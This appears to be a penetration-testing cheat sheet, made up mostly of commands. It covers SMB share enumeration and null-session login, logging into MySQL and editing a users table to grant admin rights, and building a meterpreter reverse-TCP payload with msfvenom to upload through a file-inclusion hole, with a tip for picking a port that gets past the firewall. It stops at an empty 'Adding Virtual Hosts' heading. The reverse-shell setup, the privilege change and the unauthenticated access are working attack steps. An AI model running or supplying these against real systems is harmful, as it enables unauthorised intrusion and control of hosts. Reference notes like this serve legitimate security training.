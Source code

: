 ## Windows Shares Enumeration

Check what shares are available on a host
```
$ smbclient -L //ip 
$ enum4linux -a ip_address
```

## SMB Null Attack
Try to login without a username or password:

```
$ smbclient //ip/share -N
```

## MySQL Database commands

Login to MySQL with password
```
$ mysql --user=root --port=13306 -p -h 172.16.64.81
```

```
> SHOW databases;
> SHOW tables FROM databases;
> USE database;
> SELECT * FROM table;
```

Change table entry values
```
# Add the user tracking1 to the "adm" group
> update users set adm="yes" where username="tracking1";
```

## Meterpreter reverse shell

1. Find vulnerability in target (e.g. LFI/RFI)
2. Set up a Metasploit listener
```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp # or any payload you wish
set lhost <MY IP>
set lport <PORT>  # set to a port open on the target to bypass firewall
run
```

3. Create a matching meterpreter-based executable using msfvenom
```
msfvenon -p linux/x64/meterpreter_reverse_tcp lhost=<MY IP> lport=<PORT> -f elf -o meter
```

4. Upload the payload to target (e.g LFI/RFI)

## Adding Virtual Hosts
